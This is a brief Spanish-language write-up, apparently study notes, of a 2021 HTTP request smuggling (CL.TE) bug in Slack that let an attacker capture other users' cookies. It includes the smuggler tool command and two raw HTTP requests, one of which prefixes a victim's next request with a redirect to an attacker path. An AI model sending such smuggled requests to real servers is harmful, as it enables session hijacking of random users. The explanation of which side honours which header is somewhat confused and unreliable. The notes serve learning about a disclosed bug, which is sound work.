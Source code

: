 este es un bug reportado en 2021 en slack, que permitía obtener las cookies de un usuario. paso el comando smuggler -u slackb.com,
de la herramienta opensouce ["smuggler"](https://github.com/defparam/smuggler).
la vulnerabilidad era un CL.TE, es decir que el fontend priorizaba el content length, al enviar transfer encoding, sin embargo, debería priorizar el transfer encoding y para que el content length no reconozca el transfer encoding, ya que probablemente este configurado para usar content length, gracias al espacio no reconocia el transfer encoding.
tenía que poner un espacio entre el transfer-encoding y chunked
Transfer-Encoding : chunked
y así el backend lo removía y lo reconocía como transfer-encoding. 
```
POST / HTTP/1.1
Host: slackb.com
Cookie: user=Bob
Transfer-Encoding : chunked
Content-Length: 12

0
Key=value
```
eso era enviado por el frontend como una sola petición, pero el backend, priorizando el transfer encoding, enviaría key=value.
entonces envío un ataque así:
```
POST / HTTP/1.1
Host: slackb.com
Cookie: user=Bob
Transfer-Encoding : chunked
Content-Length: 30

0
GET /evil/path HTTP/1.1
X:
```
donde la siguiente request se veía incluída, causando un "open redirect".
la víctima era un usuario random, y no había manera de elegir a quien era